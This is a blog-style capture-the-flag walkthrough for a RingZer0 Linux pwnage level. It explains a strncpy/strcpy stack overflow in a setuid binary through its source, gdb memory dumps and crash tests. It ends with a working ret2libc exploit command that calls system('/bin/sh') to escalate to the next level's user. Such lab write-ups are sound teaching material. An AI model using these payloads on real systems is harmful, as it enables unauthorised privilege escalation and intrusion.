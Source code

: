 ```yaml
---
title: "R0 | Pwnage Linux - Level3"
layout: post
date: 2019-08-23
tag:
- Pwnage
- x86 
- Linux
- Ret2libc
- walktrhough
- CTF 
category: blog
author: Srbx7
description: R0 | Pwnage Linux - Level3
---
```



`# file level3`

```
level3: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.26, BuildID[sha1]=2336e9f02b6ccbbcccd445196c761004ba06c764, with debug_info, not stripped
```

> Has a setuid

> Is an ELF 32-bit LSB exec

> Is compile for Intel x86 processors


`# checksec level3`

```
[*] '/root/ringzer0team/pwnageLinux/level3/level3'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

`# cat /levels/level3.c`

```c
// Created by Hidden (hidden@undernet.org)

#include <stdio.h>
#include <stdlib.h>
#include <string.h>


char* concat(char *buf, char *s1, char *s2)
{
	// Copy s1 to buf
	strcpy(buf, s1);
	// Append s2 to s1 into buf
	strcat(buf, s2);
	return buf;
}


int main(int argc, char **argv)
{
	char buf[256];
	char buf1[128];
	char buf2[128];

	if (argc != 3)
		return 0;

	// Copy argv[1] to buf1 and argv[2] to buf2
	strncpy(buf1, argv[1], sizeof(buf1));
	strncpy(buf2, argv[2], sizeof(buf2));

	concat(buf, buf2, buf1);
	printf("String result: %s\n", buf);
	return 0;
}
```

> Well okay, if it's not already perceived, a good exercise would be for you to spot any anomaly, a use that differs from one point to another in this code...

> Need a hint? Okay, what differs from `strcpy()` and `strncpy()` ?

Problem with `strncpy( char *dest, const char *src, size_t n )`: If there is no null character among the first n character of src, the string placed in dest will not be null-terminated. So `strncpy()` does not guarantee that the destination string will be NULL terminated. Hence, it's buffer memory can't be directly overflow w/ that function.

Problem with `strcpy( char *dest, const char *src )`: The `strcpy()` function does not specify the size of the destination array, so buffer overrun is often a risk (as `strcat and strcmp`).

Fine! By fulling the `buf2` buffer w/o null byte, it's possible to overflow the `buf`. In other words, since `buf1` is right next (below) `buf2` on the stack and `strcpy` function stop copying when it gets a null char, `buf2` will looks something like `buf2` + `buf1`.

```
|      128      | arg2 -> buf2 -> s1
|      128      | arg1 -> buf1 -> s2
|      256      | buf 
|      ...      | 
| return_adress |
```

```bash
level3@lxc-pwn-x86:/levels$ ./level3 A `python -c 'print "\x42" * 127'`
String result: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBA
										^
```

```bash
Breakpoint 2, main (argc=3, argv=0xffffdc94) at level3.c:31
31		concat(buf, buf2, buf1);
(gdb) x/100wx $eax-100
0xffffd98c:	0x00000000	0xf7ffd000	0x08048260	0xf7ffd000
0xffffd99c:	0xf7ffd53c	0xffffd9b8	0xf7e219f8	0x00000000
0xffffd9ac:	0xffffdaa4	0xf7fe87eb	0x00000000	0xf7fcc000
0xffffd9bc:	0xf7fcc000	0xffffdbf8	0xf7feeff0	0xffffdc24
0xffffd9cc:	0xf7ea357c	0xf7fcc000	0xf7fcc000	0x00000000
0xffffd9dc:	0x0804854a	0xffffd9f0	0xffffddd0	0x00000080
0xffffd9ec:	0xf7fe2f60	0x42424242	0x42424242	0x42424242
0xffffd9fc:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda0c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda1c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda2c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda3c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda4c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda5c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda6c:	0x00000000	0x00000041	0x00000000	0x00000000 <---------- *
			^^^^^^^^^^
```

```bash
level3@lxc-pwn-x86:/levels$ ./level3 A `python -c 'print "\x42" * 128'`
String result: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAA
										 ^^
```

```bash
Breakpoint 2, main (argc=3, argv=0xffffdc94) at level3.c:31
31		concat(buf, buf2, buf1);
(gdb) x/100wx $eax-100
0xffffd98c:	0x00000000	0xf7ffd000	0x08048260	0xf7ffd000
0xffffd99c:	0xf7ffd53c	0xffffd9b8	0xf7e219f8	0x00000000
0xffffd9ac:	0xffffdaa4	0xf7fe87eb	0x00000000	0xf7fcc000
0xffffd9bc:	0xf7fcc000	0xffffdbf8	0xf7feeff0	0xffffdc24
0xffffd9cc:	0xf7ea2a15	0xf7fcc000	0xf7fcc000	0x00000000
0xffffd9dc:	0x0804854a	0xffffd9f0	0xffffddcd	0x00000080
0xffffd9ec:	0xf7fe2f60	0x42424242	0x42424242	0x42424242
0xffffd9fc:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda0c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda1c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda2c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda3c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda4c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda5c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda6c:	0x42424242	0x00000041	0x00000000	0x00000000 <---------- *
			^^^^^^^^^^
```

Since `buf2` has to be exactly 128-byte w/o null char (e.g.: bigger values are just going to be ignored by `strncpy` function), let's play w/ `buf1` and try to some value to make crash the program.

```bash
level3@lxc-pwn-x86:/levels$ ./level3 `python -c 'print "\x41" * 69'` `python -c 'print "\x42" * 128'`
String result: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

level3@lxc-pwn-x86:/levels$ ./level3 `python -c 'print "\x41" * 70'` `python -c 'print "\x42" * 128'`
String result: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```

Several methods can make it possible to execute arbitrary code, in particular by using a global variable in which there is a shellcode and the address is known beforehand. Although, I prefered to play a bit more with the basic gdb commands on the server to get more familiar w/ the basics and `ret2libc`.

```bash
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e56940 <system>
(gdb) find 0xf7e56940, +99999999999, "/bin/sh"
0xf7f7502b
warning: Unable to access 16000 bytes of target memory at 0xf7fcedb3, halting search.
1 pattern found.
```

Exploit and grab the flag!

```bash
level3@lxc-pwn-x86:/levels$ ./level3 `python -c 'print "\x41" * 64 + "\x40\x69\xe5\xf7"+ "CCCC"  + "\x2b\x50\xf7\xf7"'` `python -c 'print "\x42" * 128'`
String result: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@i��CCCC+P��AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@i��CCCC+P��
level4@lxc-pwn-x86:/levels$ wc -l /home/level4/.pass
1 /home/level4/.pass
level4@lxc-pwn-x86:/levels$ 
```
